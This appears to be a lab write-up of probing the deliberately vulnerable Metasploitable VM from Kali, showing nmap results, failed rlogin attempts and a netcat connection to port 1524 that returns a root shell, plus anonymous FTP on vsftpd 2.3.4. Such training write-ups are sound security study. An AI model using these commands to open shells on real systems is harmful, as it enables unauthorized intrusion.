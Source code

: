 ### Metasploitable Root shell

While perusing the open ports on the target VM, one in particular jumped out:

```
1524/tcp  open  shell       Metasploitable root shell
```

This was a curiousity... My first attempt was to attempt using rlogin to connect to the port, which did not appear to work correctly, though did seem to work enough to return part of a prompt to the user:

```
root@kali:~# rlogin -p 1524 target
oot@metasploitable:/#

ls
^C
root@kali:~# rlogin -p 1524 target
oot@metasploitable:/# id
;
^C
```

My next approach was to attempt a simple netcat connection to the host, which ended up being successful:

```
root@kali:~# nc -v target 1524
target [172.16.243.143] 1524 (ingreslock) open
root@metasploitable:/# id
uid=0(root) gid=0(root) groups=0(root)
root@metasploitable:/# hostname
metasploitable
```

### FTP

Another port that stood out was the FTP port 21, which was shown with the `nmap ... -A` command to allow anonymous logins:

```
21/tcp    open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.16.243.144
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
```
